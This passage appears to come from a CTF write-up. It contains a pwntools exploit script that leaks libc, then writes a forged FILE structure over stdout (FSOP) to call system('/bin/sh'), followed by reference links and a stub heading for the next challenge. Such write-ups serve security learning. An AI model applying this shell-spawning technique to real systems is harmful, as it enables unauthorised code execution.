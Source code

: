 ```c
p.recvuntil(b'your book: ')
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - libc.sym.printf
log.info(f'libc.address: {hex(libc.address)}')

input()
p.sendline(b'1')
p.sendline(str(exe.sym.book - exe.got.printf))  # offset from stdout to book
p.send(p64(libc.address))
input()

p.sendline(b'1')

stdout_lock = libc.address +  0x205710
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18

# our gadget
gadget = libc.address + 0x00000000001724f0 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)
# write the fake Filestructure to stdout

p.sendline(str(libc.sym._IO_2_1_stdout_ - libc.address))
p.send(bytes(fake))
p.interactive()
```

ref : 

https://niftic.ca/posts/fsop/#__libio_codecvt_length207

https://blog.kylebot.net/2022/10/22/angry-FSROP/

https://github.com/fyrepaw13/ctf_writeups/blob/main/WGMY2024/README.md#pwnscreenwriter


------------------

## sort
###     reverse
checksec : 

![image](https://hackmd.io/_uploads/r168SJ4Dkg.png)
